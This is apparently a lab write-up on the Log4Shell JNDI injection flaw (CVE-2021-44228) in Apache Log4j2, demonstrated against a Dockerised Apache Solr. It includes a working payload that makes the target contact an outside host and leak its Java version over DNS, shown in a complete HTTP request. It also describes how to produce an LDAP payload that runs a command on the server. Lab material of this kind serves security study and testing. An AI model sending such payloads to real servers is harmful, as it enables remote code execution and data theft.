

Apache Log4j2 lookup feature JNDI injection (CVE-2021-44228)¶
Apache Log4j 2 is an upgrade to Log4j that provides significant improvements over its predecessor, Log4j 1.x, and provides many of the improvements available in Logback while fixing some inherent problems in Logback's architecture.
On Dec 2021, a 0-day exploit in the Apache Log4j2 was discovered. Log4j’s JNDI support has not restricted what names could be resolved. Some protocols like rmi: and ldap: are unsafe or can allow remote code execution.
References:
- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649
Vulnerability Environment¶
Apache Log4j2 is not a certain web service, it is just a third-party library, so we can use a application that depend on Log4j2 to demonstrate how to exploit this vulnerability.
Execute following command to start a Apache Solr 8.11.0, which use Log4j 2.14.1:
docker compose up -d
After server start, browse http://your-ip:8983 to see the admin portal of Apache Solr.
Exploit¶
Simply, put the payload ${jndi:dns://${sys:java.version}.example.com} as the admin action that can trigger the JNDI query.
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.example.com} HTTP/1.1
Host: your-ip:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
Query will be shown at the DNS log:
Because the target JDK version is below 8u191, we can use rmi:// or ldap:// to run the Java bytecode directly.
For vulnerability exploitation, you can use the Java Chains. First, visit the Quick Start page to set up Java Chains. Then, follow the JNDI Basic Exploitation Guide to configure the command touch /tmp/success and generate a JNDI LDAP URL Payload. Finally, replace the payload in the previous HTTP request to successfully exploit the vulnerability.
As you can see, touch /tmp/success is succesful executed:
